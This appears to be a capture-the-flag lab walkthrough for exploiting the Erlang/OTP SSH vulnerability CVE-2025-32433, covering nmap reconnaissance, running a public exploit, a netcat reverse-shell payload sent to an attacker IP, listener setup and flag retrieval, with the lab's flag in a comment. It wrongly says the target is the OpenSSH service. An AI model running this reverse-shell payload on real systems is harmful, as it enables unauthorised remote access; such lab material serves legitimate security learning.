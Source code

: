 # <div align="center">Erlang/OTP SSH: CVE-2025-32433</div>
<div align="center">Learn about and exploit Erlang/OTP SSH CVE-2025-32433 in a lab setup.</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/b452eef7-47a9-4d7c-8d81-766659f06f73" height="200"></img>
</div>

### Task 1. Introduction

Erlang is a programming language made for building reliable, real-time systems that can handle many users at once. It was originally created by Ericsson for telecom use but is now used in many industries to build distributed systems.

OTP (Open Telecom Platform) is a set of tools and libraries that work with Erlang to help build these systems. Even though it started in telecom, OTP is now used more broadly for any kind of distributed application. Together, they're often called Erlang/OTP.

Erlang is used by many companies for product development and by universities for teaching and research.

One part of OTP is the SSH module, which lets Erlang systems use secure shell access and transfer files safely.

Recently, a critical vulnerability (CVE-2025-32433) was found in the Erlang/OTP SSH. It allows attackers to run code on the system without logging in. This issue was discovered by researchers at Ruhr University Bochum and has a CVSS score of 10.0, which means it’s extremely serious.

## Task 2: Exploitation Walkthrough

### Step 1: Reconnaissance

We begin by performing an initial service enumeration using Nmap:

```bash
nmap 10.10.237.184 -sV -sC
```

**Nmap Output Summary:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     Erlang/5.2.9
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9
```

The system is running two SSH services:
- Port **22**: `SSH-2.0-Erlang/5.2.9`
- Port **2222**: `OpenSSH 9.6p1 (Ubuntu)`

---
### Step 2: CVE Exploitation

We will target the outdated OpenSSH service using a public exploit: **CVE-2025-32433**.

Clone the exploit from GitHub:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
```

Now, configure the IP and port in the exploit script as per the target:

![Configuring exploit](https://github.com/user-attachments/assets/ce2f79c8-7c53-42c1-aabf-8dc912c4bee4)

Run the exploit:
```bash
python3 CVE-2025-32433.py
```

**Expected Output:**
- Confirmation that the exploit has been sent
- A banner or response from the SSH server
- Confirmation that `/lab.txt` has been written

![Exploit run output](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

---
### Step 3: Reverse Shell Execution

To escalate and gain a reverse shell, modify the payload in the exploit to use Erlang's `os:cmd()` for command execution:

![2025-04-25_14-12](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

Replace with:

```erlang
os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.46.171 8000 >/tmp/f | nc 10.17.46.171 4444").
```

![Payload injection](https://github.com/user-attachments/assets/d8275718-5035-4378-b5c9-99a725aaba3b)

Set up two Netcat listeners on the attack machine:

**Terminal 1**:
```bash
nc -lnvp 4444
```

**Terminal 2**:
```bash
nc -lnvp 8000
```

Once executed, you should receive a shell connection:

![Netcat Shell Received](https://github.com/user-attachments/assets/fc348189-b7d1-46c1-9733-7cab7eb73505)

---
### Step 4: Post-Exploitation

Now we are inside the system.

#### Shell Access Confirmation:

![Shell confirmation](https://github.com/user-attachments/assets/3b583013-2a6f-4b94-8cb3-7acf43caeb05)

#### Retrieve User Flag:

```bash
cat /home/user/flag.txt
```

![Flag](https://github.com/user-attachments/assets/dc62f636-3236-4a85-96a5-353f53825703)
<!--
```
THM{U57U3P5KnR}
``` -->

#### Confirm Hostname:
```bash
uname -a
```

![Hostname](https://github.com/user-attachments/assets/c739d61f-291f-4dfd-9c4c-0bc512aefc9d)

```
c7b79fd068ba
```

